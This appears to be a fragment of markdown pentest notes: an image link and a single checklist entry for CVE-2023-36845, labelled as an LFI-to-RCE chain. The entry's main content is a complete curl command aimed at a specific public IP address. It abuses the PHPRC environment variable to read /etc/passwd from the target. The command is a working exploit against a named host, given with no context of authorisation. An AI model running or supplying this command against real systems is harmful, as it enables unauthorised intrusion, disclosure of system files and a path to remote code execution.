 - [ ] RCE | CVE-2023-36845 -> LFI to RCE -> `curl --insecure "https://195.144.106.238/?PHPRC=/dev/fd/0" --data-binary 'auto_prepend_file="/etc/passwd"'`